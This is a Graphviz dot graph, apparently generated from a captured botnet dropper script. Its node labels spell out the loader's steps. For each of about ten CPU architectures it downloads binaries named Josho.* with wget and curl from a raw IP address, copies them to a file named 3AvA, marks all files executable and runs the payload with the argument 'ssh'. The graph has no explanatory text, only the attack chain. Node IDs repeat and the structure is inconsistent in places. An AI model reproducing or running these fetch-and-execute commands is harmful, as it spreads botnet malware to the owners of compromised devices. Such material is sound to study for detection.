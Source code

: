 digraph {
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 10 [label="||,"];
10 [label="wget http://167.99.146.93/AB4g5/Josho.x86 "];
10 -> 12 [label=";,"];
12 [label="curl -O http://167.99.146.93/AB4g5/Josho.x86 "];
12 -> 14 [label=";,"];
14 [label="cat Josho.x86 3AvA "];
14 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./3AvA ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 32 [label="||,"];
32 [label="wget http://167.99.146.93/AB4g5/Josho.mips "];
32 -> 34 [label=";,"];
34 [label="curl -O http://167.99.146.93/AB4g5/Josho.mips "];
34 -> 36 [label=";,"];
36 [label="cat Josho.mips 3AvA "];
36 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./3AvA ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 54 [label="||,"];
54 [label="wget http://167.99.146.93/AB4g5/Josho.mpsl "];
54 -> 56 [label=";,"];
56 [label="curl -O http://167.99.146.93/AB4g5/Josho.mpsl "];
56 -> 58 [label=";,"];
58 [label="cat Josho.mpsl 3AvA "];
58 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./3AvA ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 76 [label="||,"];
76 [label="wget http://167.99.146.93/AB4g5/Josho.arm4 "];
76 -> 78 [label=";,"];
78 [label="curl -O http://167.99.146.93/AB4g5/Josho.arm4 "];
78 -> 80 [label=";,"];
80 [label="cat Josho.arm4 3AvA "];
80 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./3AvA ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 98 [label="||,"];
98 [label="wget http://167.99.146.93/AB4g5/Josho.arm5 "];
98 -> 100 [label=";,"];
100 [label="curl -O http://167.99.146.93/AB4g5/Josho.arm5 "];
100 -> 102 [label=";,"];
102 [label="cat Josho.arm5 3AvA "];
102 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./3AvA ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 120 [label="||,"];
120 [label="wget http://167.99.146.93/AB4g5/Josho.arm6 "];
120 -> 122 [label=";,"];
122 [label="curl -O http://167.99.146.93/AB4g5/Josho.arm6 "];
122 -> 124 [label=";,"];
124 [label="cat Josho.arm6 3AvA "];
124 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./3AvA ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 142 [label="||,"];
142 [label="wget http://167.99.146.93/AB4g5/Josho.arm7 "];
142 -> 144 [label=";,"];
144 [label="curl -O http://167.99.146.93/AB4g5/Josho.arm7 "];
144 -> 146 [label=";,"];
146 [label="cat Josho.arm7 3AvA "];
146 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./3AvA ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 164 [label="||,"];
164 [label="wget http://167.99.146.93/AB4g5/Josho.ppc "];
164 -> 166 [label=";,"];
166 [label="curl -O http://167.99.146.93/AB4g5/Josho.ppc "];
166 -> 168 [label=";,"];
168 [label="cat Josho.ppc 3AvA "];
168 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./3AvA ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 186 [label="||,"];
186 [label="wget http://167.99.146.93/AB4g5/Josho.m68k "];
186 -> 188 [label=";,"];
188 [label="curl -O http://167.99.146.93/AB4g5/Josho.m68k "];
188 -> 190 [label=";,"];
190 [label="cat Josho.m68k 3AvA "];
190 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./3AvA ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 208 [label="||,"];
208 [label="wget http://167.99.146.93/AB4g5/Josho.sh4 "];
208 -> 210 [label=";,"];
210 [label="curl -O http://167.99.146.93/AB4g5/Josho.sh4 "];
210 -> 212 [label=";,"];
212 [label="cat Josho.sh4 3AvA "];
212 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
}
